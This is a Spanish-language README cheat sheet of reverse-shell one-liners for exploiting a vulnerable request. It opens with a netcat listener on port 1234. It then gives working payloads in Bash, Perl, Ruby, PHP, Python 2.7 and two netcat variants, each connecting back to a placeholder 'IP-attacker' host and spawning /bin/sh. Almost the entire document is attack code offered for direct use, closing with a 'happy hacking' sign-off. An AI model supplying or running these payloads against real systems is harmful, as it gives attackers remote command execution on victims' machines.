 # Reverse Shell

> Trucos para obtener un shell en una peticion vulnerable, se depende del lengueje que acepte las peticiones, requiere configurar previamente un puerto de escucha.

### Configuracion
* **Abre un puerto en tu maquina atacante con Netcat** - es el puerto que con el configuras el shell, estos ejemplos estan configurados con el 1234, puedes modificar el puerto
 
 nc -lvnp 1234
  
* **Modifica la IP en el shell por la de IP-attacker** [Configura el Host](https://github.com/heancako311299/githack)

### Bash

  bash -i >& /dev/tcp/IP-attacker/1234 0>&1
    
### Perl

  perl -e 'use Socket;$i="IP-attacker";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
   
### Ruby

  ruby -rsocket -e'f=TCPSocket.open("IP-attacker",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
### Php

  php -r '$sock=fsockopen("IP-attacker",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    
### Python 2.7
    
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-attacker",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
### Netcat método -e

  nc -e /bin/sh IP-attacker 1234

### Netcat versiones antiguas

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP-attacker 1234 >/tmp/f

h4Ppy #@cK1n6 :)
> Discord: heanczko#4478
